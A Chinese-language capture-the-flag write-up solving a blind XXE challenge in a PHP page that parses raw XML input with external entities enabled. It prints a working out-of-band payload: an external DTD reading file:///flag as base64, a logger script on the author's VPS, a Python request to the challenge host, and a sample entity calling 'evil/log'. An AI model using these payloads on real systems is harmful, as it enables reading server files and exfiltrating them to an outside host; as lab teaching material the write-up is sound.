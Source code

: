 代码审计

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

我们可以用自己的VPS实现带外输出

首先建一个index.php

```php
<?php 
	$cookie = $_GET['q'];
	$myFile = "cookie.txt";
	file_put_contents($myFile, $cookie, FILE_APPEND);
?>
```

evil.dtd

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://42.192.137.212/index.php?q=%file;'>">
```

python发送请求即可，之后再网站根目录cookie.txt查看获取的flag即可

```
import requests

url = 'http://8bb031b1-bab9-43fe-b73b-d9741ed6617b.chall.ctf.show/'
payload = """<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://42.192.137.212/evil.dtd">
%remote;%int;%send;
]>
"""
requests.post(url, data=payload)

```

# 备注

> 关于实体嵌套的情况，比较幸运的是DTD中支持单双引号，所以可以通过单双引号间隔使用作为区分嵌套实体和实体之间的关系；在实际使用中，我们通常需要再嵌套一个参数实体，%号是需要处理成 &#37; 如下：
>
> <!ENTITY % param1 '<!ENTITY % xxe SYSTEM "http://evil/log?%payload;" >'
>
> `&#37;`也可写为16进制`&#x25;`